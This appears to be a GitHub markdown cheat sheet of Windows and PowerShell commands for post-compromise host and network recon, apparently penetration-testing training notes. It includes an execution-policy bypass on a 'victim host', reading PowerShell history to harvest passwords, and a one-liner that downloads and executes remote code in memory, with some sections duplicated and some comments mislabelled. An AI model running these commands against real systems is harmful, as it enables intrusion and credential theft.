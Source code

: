 ## Table of Contents

- [Environment Commands for Host & Network Recon](#Environment\Commands\for\Host\&\Network\Recon)
      - [Downgrade Powershell](#Downgrade\Powershell)
      - [Downgrade Powershell](#Downgrade\Powershell)


### Environment Commands for Host & Network Recon


```PowerShell
hostname --

[System.Environment]::OSVersion.Version -- Prints the PC's name

wmic qfe get Caption,Description,HotFixID,InstalledOn -- prints the patches and hotfixes applied to the host


ipconfig /all  -- Prints out network adapter state and cofigurations

set -- Displays a list of environment variables for the current session (ran form CMD prompt)

echo %USERDOMAIN% -- Displays the domain name to which the host belongs


echo %logonserver%  -- prints out the name ofthe Domain Controller th ehost checks in with.









```


```powershell

Get-Module	Lists available modules loaded for use.


Get-ExecutionPolicy -List	Will print the execution policy settings for each scope on a host.


Set-ExecutionPolicy Bypass -Scope Process	This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.


Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt	
With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.


Get-ChildItem Env: | ft Key,Value	
Return environment values such as key paths, users, computer information, etc.


powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"	


This is a quick and easy way to download a file from the web using PowerShell and call it from memory.


```

#### Downgrade Powershell

```powershell-session
PS C:\htb> Get-host
```

#### Downgrade Powershell

```powershell-session
PS C:\htb> Get-host
```

